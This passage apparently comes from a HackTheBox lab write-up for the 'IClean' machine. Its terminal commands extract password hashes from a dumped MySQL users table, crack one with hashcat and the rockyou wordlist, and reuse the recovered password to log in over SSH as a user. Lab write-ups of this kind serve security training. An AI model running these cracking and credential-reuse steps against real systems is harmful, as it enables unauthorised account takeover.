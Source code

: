 Extract hashes for **hashcat**

```bash
┌──(bravosec㉿fsociety)-[~/htb/IClean]
└─$ cat loot/mysql_capiclean_users.txt
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+

┌──(bravosec㉿fsociety)-[~/htb/IClean]
└─$ FP=loot/mysql_capiclean_users.txt; cat $FP | tail -n +4 | awk -F '|' '{print $3":"$4}' | tr -d ' ' | grep -v '^:$' | tee "${FP%.*}.hash"
admin:2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51
consuela:0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa
```

^55443a

Crack the hashes

```bash
┌──(bravosec㉿fsociety)-[~/htb/IClean]
└─$ hashcat loot/mysql_capiclean_users.hash /opt/wordlists/rockyou.txt --user -m 1400
[...]

┌──(bravosec㉿fsociety)-[~/htb/IClean]
└─$ hashcat loot/mysql_capiclean_users.hash /opt/wordlists/rockyou.txt --user -m 1400 --show
consuela:0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa:simple and clean
```

### Password reuse

```bash
┌──(bravosec㉿fsociety)-[~/htb/IClean]
└─$ cssh $(pt get rhost) consuela 'simple and clean'
Warning: Permanently added 'capiclean.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Tue Apr 23 06:16:10 PM UTC 2024




Expanded Security Maintenance for Applications is not enabled.

3 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
```